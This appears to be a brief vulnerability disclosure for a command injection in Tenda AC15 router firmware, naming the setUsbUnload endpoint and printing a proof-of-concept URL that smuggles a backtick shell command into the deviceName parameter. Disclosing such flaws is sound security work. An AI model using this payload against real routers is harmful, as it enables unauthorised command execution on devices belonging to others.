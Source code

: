 Tengda router AC15 exists command execution

Firmware download address：https://www.tenda.com.cn/download/detail-2680.html

version:AC15

After analyzing routes, the deviceName parameter is controllable, so that the command is executed

![WPS图片(1)](https://github.com/RCEraser/cve/assets/131632691/656018d0-1eff-41e8-be29-52265b675f29)

Payload
http://x.x.x.x/goform/setUsbUnload?deviceName=`echo '111'`>/tmp/bb.txt`

![WPS图片(2)](https://github.com/RCEraser/cve/assets/131632691/9041de24-aea8-4cc0-a9f3-86aedd9032f5)
